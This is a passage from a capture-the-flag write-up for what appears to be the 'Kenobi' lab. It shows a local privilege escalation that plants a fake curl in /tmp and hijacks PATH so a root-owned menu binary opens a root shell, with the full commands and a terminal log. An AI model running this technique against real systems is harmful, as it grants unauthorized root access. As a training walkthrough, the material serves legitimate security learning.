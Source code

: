 Now we leverage the `PATH` to fake `curl` and escalate privilege

### First we gotta cd to `/tmp`

![image.png](attachment:14c3f5d1-daa0-4bf8-a4b2-b64cdcf41a8f:image.png)

- **Binary with Insecure Path Usage**:
    
    - A program (`/usr/bin/menu`) is running commands like `curl`, `uname`, `ifconfig` **without using their full path** (e.g., `/usr/bin/curl`).
    - This is dangerous because Linux searches your environment's `PATH` to find those commands — and you can manipulate `PATH`.
- **Crafting a Fake `curl`**:
    
    - You create a fake "curl" that is actually a shell (`/bin/sh`) and name it `curl`.
        
        ```bash
        echo /bin/sh > curl
        chmod 777 curl
        ```
        
- **Modifying PATH**:
    
    - You change the `PATH` so that the system looks in your current directory (`/tmp`) **first** before looking in the default directories.
        
        ```bash
        export PATH=/tmp:$PATH
        ```
        
- **Running the Vulnerable Program**:
    
    - When you run `/usr/bin/menu` and it calls `curl`, it finds **your fake one** and runs `/bin/sh` — as **root** — because the program itself is run with root privileges.
- **Gaining Root Shell**:
    
    - You end up with a **root shell** (`#` prompt) even though you started as a normal user (`$` prompt).

Now we cat the `/root/root.txt` and profit

```jsx
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh >curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# ls
curl  systemd-private-02715af251df4edfa41bab5c5a87df17-systemd-timesyncd.service-fDVx77
# whoami  
root
# cat /root/root.txt

```

### Fairly simple but confusing for first timers like me